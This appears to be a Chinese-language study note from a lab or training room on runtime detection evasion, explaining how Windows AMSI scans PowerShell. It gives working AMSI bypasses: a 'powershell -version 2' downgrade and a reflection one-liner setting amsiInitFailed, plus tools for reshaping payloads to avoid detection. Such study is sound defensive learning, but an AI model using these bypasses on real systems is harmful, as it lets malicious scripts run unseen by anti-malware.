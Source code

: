 # Runtime Detection Evasion

了解如何使用与工具无关的现代方法绕过常见的运行时检测措施，例如 AMSI。

---

## AMSI

AMSI（Anti-Malware Scan Interface）是一项PowerShell安全功能，允许任何应用程序或服务直接集成到反恶意软件产品中。Defender 检测 AMSI 以在 .NET 运行时内执行之前扫描有效负载和脚本。

![在这里插入图片描述](https://img-blog.csdnimg.cn/2b3650a3d93c4b4089edc06634210731.png)

仅当从 CLR 执行时从内存加载时，才会检测 AMSI。假定如果在磁盘上，MsMpEng.exe（Windows Defender）已经被检测。

我们可以分解 AMSI PowerShell 检测的代码，以更好地了解它的实现方式并检查可疑内容。

InsecurePowerShell是PowerShell的GitHub分支，删除了安全功能;这意味着我们可以查看比较的提交并观察任何安全功能。AMSI 仅在src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs下的 12 行代码中检测。

```csharp
var scriptExtent = scriptBlockAst.Extent;
 if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)
 {
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);
  throw new ParseException(new[] { parseError });
 }

 if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)
 {
  HasSuspiciousContent = true;
 }
 ```

## powershell降级

PowerShell降级攻击是一个非常容易实现的果实，它允许攻击者修改当前的PowerShell版本以删除安全功能。

大多数PowerShell会话将从最新的PowerShell引擎开始，但攻击者可以使用单行手动更改版本。通过将 PowerShell 版本“降级”到 2.0，可以绕过安全功能，因为它们直到版本 5.0 才实现。

	powershell -version 2

## powershell反射

PowerShell 反射可能被滥用来修改和识别来自有价值的 DLL 的信息。

PowerShell 的 AMSI 实用程序存储在位于AMSIUtilsSystem.Management.Automation.AmsiUtils中的 .NET 程序集中。

Matt Graeber发布了一个单行代码来实现使用反射修改和绕过AMSI实用程序的目标。

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

通过反射获取到amsiutils程序集，通过GetField获取到指定字段，在用SetValue设置这个字段的值为true

将amsiInitFailed字段设为true后，amsi将以AMSI_RESULT_NOT_DETECTED = 1响应

## 自动化工具

可以通过http://amsi.fail/自动生成绕过amsi的code

以及前几个房间用到的amsiTrigger去检测自己的payload，发现并修改自己的payload去绕过amsi
